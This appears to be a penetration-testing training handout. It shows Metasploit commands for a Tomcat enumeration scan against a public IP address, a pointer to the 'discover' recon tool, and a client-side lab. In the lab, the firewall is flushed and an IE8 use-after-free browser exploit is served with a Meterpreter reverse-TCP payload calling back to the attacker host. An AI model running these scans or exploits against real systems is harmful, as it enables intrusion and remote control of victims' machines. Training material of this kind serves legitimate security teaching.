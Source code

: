  
-------------------------------
 
use auxiliary/scanner/http/tomcat_enum                   
 
set RHOSTS 54.69.156.253
 
set RPORT 8081
 
run
 
 
 
-------------------------------
- In my opinion a much better option is a script called 'discover' from Lee Baird.
 
- You can get it here: 
https://github.com/leebaird/discover
 
- On the Ubuntu attack host you can run discover by typing the following:
cd ~/toolz/discover
sudo ./discover
 
 
- From here you can just follow the prompts. It will run both Nmap NSE scripts and Metasploit aux modules with all of the correct parameters for you.
 
 
##################################
# Basic Client-Side Exploitation #
##################################
 
echo j0e-r0x > /home/strategicsec/j0e-r0x.txt                   (You can of course replace j0e-r0x with yourname)
 
sudo /sbin/iptables -F
     strategicsec
 
cd ~/toolz/metasploit
 
./msfconsole
 
use exploit/windows/browser/ie_cgenericelement_uaf
 
set ExitOnSession false
 
set URIPATH /ie8
 
set PAYLOAD windows/meterpreter/reverse_tcp
 
set LHOST 192.168.10.128                                            (Make sure you change this to your ubuntu ip address)
 
exploit -j
 
 
- Now from the Win7 host, use Internet Explorer 8 to connect to the exploit address (local address)
- given to you by metasploit.
 
- The address will be something like:
 
http://192.168.10.128:8080/ie8                                            (Make sure you change this to your ubuntu ip address)
 